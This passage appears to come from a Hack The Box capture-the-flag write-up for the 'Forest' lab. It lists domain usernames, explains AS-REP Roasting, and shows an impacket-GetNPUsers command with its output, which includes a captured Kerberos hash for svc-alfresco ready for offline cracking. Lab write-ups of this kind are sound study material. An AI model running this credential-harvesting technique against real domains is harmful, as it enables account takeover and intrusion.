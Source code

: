 ```shell                
HealthMailboxfd87238
HealthMailboxb01ac64
HealthMailbox7108a4e
HealthMailbox0659cc1
sebastien
lucinda
svc-alfresco
andy
mark
santi
```
We will exclude attempts to crack passwords for the Health and Exchange system mailboxes. With that in mind, the following usernames will be tested:

1. sebastien
2. lucinda
3. svc-alfresco
4. andy
5. mark
6. santi

### AES-REP Roasting

AS-REP Roasting is an attack technique that allows adversaries to steal the password hashes of user accounts where Kerberos pre-authentication is disabled, enabling them to attempt offline password cracking.

Under normal circumstances, when pre-authentication is enabled, a user initiating a Kerberos authentication request sends an Authentication Server Request (AS-REQ) message to the domain controller (DC). This message includes a timestamp encrypted with the user's password hash. If the DC can successfully decrypt the timestamp using the user's stored password hash, it responds with an Authentication Server Response (AS-REP) message, which contains a Ticket Granting Ticket (TGT) from the Key Distribution Center (KDC). The TGT is used to authenticate the user for subsequent access requests.

However, if Kerberos pre-authentication is disabled for an account, an attacker can request authentication data for any user. In this case, the DC responds with an AS-REP message, which includes an encrypted section that is tied to the user's password. Since the encryption is based on the user’s password hash, an attacker can capture the AS-REP message and attempt to brute-force the password offline, bypassing the need for direct interaction with the DC.

While this vulnerability or misconfiguration is well-known and easily identified during penetration testing, most organizations—except for a few that maintain it for backward compatibility or application support—are generally protected from this attack. However, we will leave no stone unturned in our assessment.

Using `impacket-GetNPUsers` for **AS-REP Roasting**, we successfully retrieved the hashes for the `alfresco@HTB` account, which we can now attempt to crack offline.

```shell
┌──(frodo㉿kali)-[~/hack-the-box/forest]
└─$ impacket-GetNPUsers htb/ -outputfile hashes -format hashcat -usersfile usernames.txt  -dc-ip 10.129.59.175 
Impacket v0.12.0 - Copyright Fortra, LLC and its affiliated companies 

/usr/share/doc/python3-impacket/examples/GetNPUsers.py:165: DeprecationWarning: datetime.datetime.utcnow() is deprecated and scheduled for removal in a future version. Use timezone-aware objects to represent datetimes in UTC: datetime.datetime.now(datetime.UTC).
  now = datetime.datetime.utcnow() + datetime.timedelta(days=1)
[-] User sebastien doesn't have UF_DONT_REQUIRE_PREAUTH set
[-] User lucinda doesn't have UF_DONT_REQUIRE_PREAUTH set
$krb5asrep$23$svc-alfresco@HTB:e1765956ff8ea8dcc94165e0560b30d9$48ba6d336c9c3c9463f647c84747fbbc3797cdac336aa23004f37db14e4c4348119c70dfbbc554ef3ef3f936100fd73cb57c1bffb87d909988e52e4938e9f5a8e1bd3b35a4915cd5ea4f96e7ce3e585d61d3fced57302f3562dc7f6bbd127e8865cc991745d8e8e394f136fa5563eaf657449f09f85a65f7a2ebd78aee107bb1126ca136afa7b6fe4aa5276da139244a06cc2e0a523b277ecb7df745b20dc012c2baf425ca30f3190f5ed3f6fe3ab9f6be7f4cbd4d17958cfe735aad37e2de2d30c1dc0ff3e5c37fdef5f0debb4c1f05534d3a136b33b081333e86139d19a4e0
```